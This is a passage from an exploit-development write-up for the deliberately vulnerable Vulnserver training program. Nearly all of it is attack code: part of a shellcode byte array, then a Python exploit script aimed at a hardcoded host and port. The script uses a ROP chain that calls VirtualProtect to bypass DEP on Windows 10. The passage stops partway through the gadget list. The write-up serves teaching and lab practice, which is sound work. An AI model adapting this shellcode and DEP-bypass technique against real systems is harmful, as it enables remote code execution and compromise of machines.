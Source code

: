 ``` console
SHELL += b"\xeb\xe1\x25\x36\x60\xe6\xf1\x27\x77\x23\x52\x30"
SHELL += b"\xe0\xb9\x33\x73\x90\xbe\x19\xe3\x31\x2c\xc6\xf3"
SHELL += b"\x3c\x4d\x51\xa4\x69\xa3\xa8\x20\x84\x9a\x02\x56"
SHELL += b"\x55\x7a\x6c\xd2\x82\xbf\x73\xdb\x47\xfb\x57\xcb"
SHELL += b"\x91\x04\xdc\xbf\x4d\x53\x8a\x69\x28\x0d\x7c\xc3"
SHELL += b"\xe2\xe2\xd6\x83\x73\xc9\xe8\xd5\x7b\x04\x9f\x39"
SHELL += b"\xcd\xf1\xe6\x46\xe2\x95\xee\x3f\x1e\x06\x10\xea"
SHELL += b"\x9a\x36\x5b\xb6\x8b\xde\x02\x23\x8e\x82\xb4\x9e"
SHELL += b"\xcd\xba\x36\x2a\xae\x38\x26\x5f\xab\x05\xe0\x8c"
SHELL += b"\xc1\x16\x85\xb2\x76\x16\x8c"
```

And update our exploit:

``` python
#!/usr/bin/env python3
"""
Vulnserver TRUN exploit (ROP, DEP bypass).

Vulnerable Software: Vulnserver
Version: 1.00
Exploit Author: Andres Roldan
Tested On: Windows 10 20H2
Writeup: https://fluidattacks.com/blog/vulnserver-trun-rop/
"""

import socket
import struct

HOST = '192.168.0.20'
PORT = 9999


def create_rop_chain():
    # rop chain generated with mona.py - www.corelan.be
    rop_gadgets = [
        #[---INFO:gadgets_to_set_esi:---]
        0x75c5b862,  # POP EAX # RETN [KERNELBASE.dll] ** REBASED ** ASLR
        0x6250609c,  # ptr to &VirtualProtect() [IAT essfunc.dll]
        0x7714ae82,  # MOV EAX,DWORD PTR DS:[EAX] # RETN [ntdll.dll] ** REBASED ** ASLR
        0x7712c3c6,  # XCHG EAX,ESI # RETN [ntdll.dll] ** REBASED ** ASLR
        #[---INFO:gadgets_to_set_ebp:---]
        0x7554bdee,  # POP EBP # RETN [msvcrt.dll] ** REBASED ** ASLR
        0x625011af,  # & jmp esp [essfunc.dll]
        #[---INFO:gadgets_to_set_ebx:---]
        0x625011b4,  # POP EAX # RETN [essfunc.dll]
        0xfffffdff,  # Value to negate, will become 0x00000201
        0x760987da,  # NEG EAX # RETN [KERNEL32.DLL] ** REBASED ** ASLR
        0x771cf5b9,  # XCHG EAX,EBX # RETN [ntdll.dll] ** REBASED ** ASLR
        #[---INFO:gadgets_to_set_edx:---]
        0x7714ebc3,  # POP EAX # RETN [ntdll.dll] ** REBASED ** ASLR
        0xffffffc0,  # Value to negate, will become 0x00000040
        0x76099c08,  # NEG EAX # RETN [KERNEL32.DLL] ** REBASED ** ASLR
        0x759cc549,  # XCHG EAX,EDX # RETN [WS2_32.DLL] ** REBASED ** ASLR
        #[---INFO:gadgets_to_set_ecx:---]
        0x75567ffd,  # POP ECX # RETN [msvcrt.dll] ** REBASED ** ASLR
        0x75a08cf7,  # &Writable location [WS2_32.DLL] ** REBASED ** ASLR
        #[---INFO:gadgets_to_set_edi:---]
        0x75cf4a3b,  # POP EDI # RETN [KERNELBASE.dll] ** REBASED ** ASLR
        0x76099c0a,  # RETN (ROP NOP) [KERNEL32.DLL] ** REBASED ** ASLR
        #[---INFO:gadgets_to_set_eax:---]
        0x755617cc,  # POP EAX # RETN [msvcrt.dll] ** REBASED ** ASLR
        0x90909090,  # nop
        #[---INFO:pushad:---]
```